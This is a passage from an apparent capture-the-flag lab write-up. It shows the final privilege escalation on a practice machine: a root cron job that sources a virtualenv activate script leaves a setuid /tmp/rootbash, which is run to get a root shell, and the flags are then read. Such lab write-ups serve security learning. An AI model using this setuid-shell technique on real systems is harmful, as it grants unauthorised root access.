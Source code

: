 and save it and close.
Wait a minutes, I have `/tmp/rootbash`.

```console
edwards@agile:~$ ./pspy | grep activate
2023/08/05 00:04:07 CMD: UID=1002  PID=36606  | grep --color=auto activate
2023/08/05 00:05:01 CMD: UID=0     PID=36621  | /bin/bash -c source /app/venv/bin/activate
^C
edwards@agile:~$ ls -la /tmp/rootbash
-rwsr-sr-x 1 root root 1396520 Aug  5 00:05 /tmp/rootbash
edwards@agile:~$ /tmp/rootbash -p
edwards@agile:~# id
uid=1002(edwards) gid=1002(edwards) euid=0(root) egid=0(root) groups=0(root),1002(edwards)
```

Got root shell.

## Flag

user flag is in /home/corum directory.

```console
corum@agile:~$ cat /home/corum/user.txt
[REDACTED]
```

root

```console
edwards@agile:~# cat /root/root.txt
[REDACTED]
```
